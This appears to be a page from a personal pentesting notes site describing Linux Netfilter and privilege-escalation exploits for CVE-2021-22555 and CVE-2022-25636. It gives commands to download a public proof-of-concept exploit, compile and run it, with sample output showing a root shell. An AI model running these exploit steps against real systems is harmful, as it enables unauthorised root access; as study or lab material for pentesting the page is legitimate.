

repository: amandaguglieri/hackinglife · page: netfilter/index.html · generator: mkdocs

---
title: Netfilter vulnerabilities
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
# Netfilter vulnerabilities

## What is Netfilter?
Netfilter is a Linux kernel module that provides:
- Packet filtering
- Network address translation (NAT)
- Connection tracking
- Other firewall-related tools

It controls network traffic by manipulating individual packets based on rules. Programs like `iptables` and `arptables` serve as action mechanisms of Netfilter in the IPv4 and IPv6 protocol stack.

### Main Functions:
1. Packet defragmentation
2. Connection tracking
3. Network address translation (NAT)

## Exploiting Netfilter Vulnerabilities

### CVE-2021-22555
**Vulnerable Kernel Versions:** 2.6 - 5.11

#### Check Kernel Version

```sh
uname -r
```

**Example Output:**

```sh
5.10.5-051005-generic
```

#### Exploit Execution

```sh
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit
```

**Expected Output:**

```sh
[+] Linux Privilege Escalation by theflow@ - 2021
[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...
...
root@ubuntu:/home/cry0l1t3# id
uid=0(root) gid=0(root) groups=0(root)
```

---

### CVE-2022-25636

**Vulnerable Kernel Versions:** 5.4 - 5.6.10

⚠ **Warning:** This exploit may corrupt the kernel and require a reboot.

#### Check Kernel Version

```sh
uname -r
```

**Example Output:**

```sh
5.13.0-051300-generic
```
